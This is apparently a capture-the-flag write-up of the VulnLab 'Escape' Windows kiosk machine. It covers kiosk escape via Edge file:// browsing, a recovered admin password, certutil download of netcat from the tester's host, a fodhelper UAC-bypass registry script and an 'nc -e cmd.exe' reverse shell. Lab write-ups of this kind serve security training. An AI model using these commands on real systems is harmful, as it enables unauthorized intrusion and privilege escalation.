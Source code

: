 ```yaml
---
title: VulnLab -- Escape Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [kiosk]
image:
    path: /images/Escape-banner.png
---
```

# Escape

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Escape** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/escape-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3389 --min-rate=1000 10.10.120.101
```

![image.png](../images/escape.png)

Now let’s try to connect to the RDP.

```bash
xfreerdp /v:10.10.120.101 -sec-nla
```

![image.png](../images/escape%201.png)

> Notice that the message say to connect to the machine using
username: KisokUser0
password: no password
> 

so let’s connect to the RDP using the user KioskUser0

![image.png](../images/escape%202.png)

Now let’s go and open the edge bowser and search for the C directory

```bash
file:///c:/
```

![image.png](../images/escape%203.png)

notice that there is a folder named admin so let’s navigate to it!

![image.png](../images/escape%204.png)

notice that we got the password of the administrator.

Now let’s get the user flag by navigating to the users folder

```bash
file:///C:/Users/kioskUser0/Desktop/user_07eb46.txt
```

![image.png](../images/escape%205.png)

Now let’s get the admin password using the Remote Desktop Plus application.

Now let’s import the profile.xml to the application

![image.png](../images/escape%206.png)

Now let’s open BulltesPassView that will help recovering the password from bullet format

![image.png](../images/escape%207.png)

> Now notice that now know that got the credentails
username: admin
password: Twisting3021
> 

Now let’s go back to Microsoft edge and retrieve the cmd

```bash
file:///C:/Windows/System32/cmd.exe
```

![image.png](../images/escape%208.png)

now let’s view it in the download file

![image.png](../images/escape%209.png)

now rename the executable to msedge as this is allowed application to run

![image.png](../images/escape%2010.png)

Now let’s run it

![image.png](../images/escape%2011.png)

As we see we got access to the cmd!

Now let’s use run as and open cmd as the admin user

```bash
runas /user:Escape\admin cmd.exe
```

![image.png](../images/escape%2012.png)

now let’s see our new user.

![image.png](../images/escape%2013.png)

Now let’s see our privileges

```bash
whoami /all
```

![image.png](../images/escape%2014.png)

> Since we are in admin group admin medium integrity level we can do UAC bypass and gain full access
> 

First let’s transfer net cat.

```bash
certutil -urlcache -f http://10.8.5.233/nc.exe nc.exe
```

![image.png](../images/escape%2015.png)

Now let’s go and abuse the UAC and get full access reverse shell.

Start a listener

```bash
nc -lvnp 1337 
```

![image.png](../images/escape%2016.png)

Now let’s gain a shell

```bash
powerhsell -ep bypass
```

and paste this PowerShell script in the terminal

```bash
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\admin\Desktop\nc.exe 10.8.5.233 1337 -e cmd.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

![image.png](../images/escape%2017.png)

Now let’s go back to our listener.

![image.png](../images/escape%2018.png)

we didn’t get anything 😞

But! we can run cmd to get admin privilege 

```bash
Start-Process -Verb runas cmd.exe
```

![image.png](../images/escape%2019.png)

Now let’s see our privs.

```bash
whoami /priv
```

![image.png](../images/escape%2020.png)

and we got the full access

now let’s go to the root directory

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/escape%2021.png)

amazing we got the root flag!

![image.png](../images/escape%2022.png)

That’s it for the **Escape** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX